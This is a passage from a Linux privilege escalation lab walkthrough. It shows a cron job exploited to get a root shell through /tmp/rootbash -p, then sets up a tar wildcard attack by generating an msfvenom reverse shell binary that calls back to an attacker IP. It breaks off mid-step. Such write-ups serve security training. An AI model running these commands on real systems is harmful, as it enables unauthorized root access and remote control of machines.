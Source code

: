 Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

```
/tmp/rootbash -p

user@debian:~$ /tmp/rootbash -p
rootbash-4.1# whoami
root
rootbash-4.1# echo $SHELL
/bin/bash
rootbash-4.1# 

```

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

What is the value of the PATH variable in /etc/crontab?
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin


===
Cron Jobs - Wildcards

View the contents of the other cron job script:

```
cat /usr/local/bin/compress.sh

user@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
user@debian:~$ 

```

Note that the tar command is being run with a wildcard (_*_) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf


┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.2.77.171 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf

```
Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
